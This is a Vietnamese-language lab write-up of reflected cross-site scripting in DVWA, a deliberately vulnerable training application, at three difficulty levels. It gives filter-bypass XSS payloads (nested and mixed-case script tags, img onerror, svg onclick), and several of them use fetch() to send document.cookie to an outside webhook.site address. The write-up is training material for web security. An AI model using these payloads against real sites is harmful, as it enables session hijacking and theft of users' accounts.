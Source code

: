 # Reflected Cross Site Scripting (XSS) - DVWA

Mức độ: **LOW**, **MEDIUM**, **HIGH**

---

## 🔹 LEVEL: LOW

### 📌 Description:
Giao diện có một trường input `name`, khi nhập và submit thì web sẽ **hiển thị lại kết quả ngay bên dưới**.
<img width="601" height="188" alt="image" src="https://github.com/user-attachments/assets/ab4d9a9b-e3a3-4ec6-a5e9-63be4a0fbf99" />

---

### 🎯 Goals:
Khiến server thực thi đoạn mã JavaScript (XSS).

---

### 🔍 Phân tích:

- Giá trị `name` **không được lọc** gì cả.
- Tham số được **gắn thẳng vào URL và render ra HTML**.

→ Dễ dàng chèn bất kỳ đoạn JS nào vào.

---

### 🧪 Khai thác:

- Payload đơn giản:
```html
<script>alert(document.cookie)</script>
```

<img width="600" height="232" alt="image" src="https://github.com/user-attachments/assets/0757a153-cbee-419c-853a-ec8d6f40183d" />

- Payload gửi cookie về máy chủ của attacker:
```html
<script>
fetch("https://webhook.site/56199264-b66e-4211-a5f3-c02172bceb0a?cookie=" + document.cookie)
</script>
```

<img width="604" height="217" alt="image" src="https://github.com/user-attachments/assets/235046ae-acc1-4f44-9ce0-3a7d5bf8488c" />

> 📝 *Webhook.site tạo server tạm để nhận cookie – có thể thay bằng simple HTTP server từ Kali Linux.*

---

## 🔸 LEVEL: MEDIUM

### 🔍 Phân tích:

Dữ liệu người dùng được xử lý bằng:

```php
$name = str_replace('<script>', '', $_GET['name']);
```

→ Nếu chuỗi `<script>` xuất hiện thì bị thay bằng rỗng → chặn XSS.

---

### 💡 Bypass kỹ thuật:

- Trình duyệt hiện đại vẫn hiểu `<script>` viết sai kiểu:
  - `<ScRipT>`, `<scr<script>ipt>`
- Dùng thẻ khác thay `<script>` nhưng vẫn chạy được JS:
  - `<img src=x onerror=...>`
  - `<svg onclick=...>`

---

### 🧪 Thực hành:

Một số payload:

```html
<scr<script>ipt>
<ScRiPt>
<img src=x onerror=alert(1)>
<svg onclick=alert(1)>
```
<img width="604" height="191" alt="image" src="https://github.com/user-attachments/assets/57176b6c-69ed-4ac0-8d63-ff055f3798ed" />

Payload gửi cookie:

```html
<img 
src=x 
onerror=fetch("https://webhook.site/56199264-b66e-4211-a5f3-c02172bceb0a?cookie=" + document.cookie)>
```
<img width="610" height="244" alt="image" src="https://github.com/user-attachments/assets/dfd77422-2888-47ff-8d6d-fb1bfc1af90f" />

→ Gửi cookie sang máy chủ khác thành công.

---

## 🔺 LEVEL: HIGH

### 🔍 Phân tích:

Dữ liệu được lọc bằng regex:

```php
$name = preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name);
```

→ Hàm này chặn mọi biến thể của `<script>`.

---

### 💡 Kỹ thuật bypass:

Không dùng `<script>`, mà dùng thẻ HTML khác để thực thi JavaScript:

- `<img src=x onerror=alert(document.cookie)>`
- `<svg onclick=...>`

---

### 🧪 Thực hành:

Payload gửi cookie:

```html
<svg 
onclick=fetch("https://webhook.site/56199264-b66e-4211-a5f3-c02172bceb0a?cookie=" + document.cookie)>
```

<img width="605" height="359" alt="image" src="https://github.com/user-attachments/assets/87abf951-b730-4b0f-9bdc-c791e6f4e2bc" />

→ Gửi cookie sang máy chủ khác thành công.

> 📝 *P/S: Level HIGH không hề khó hơn level MEDIUM – chỉ cần tư duy bypass linh hoạt!*
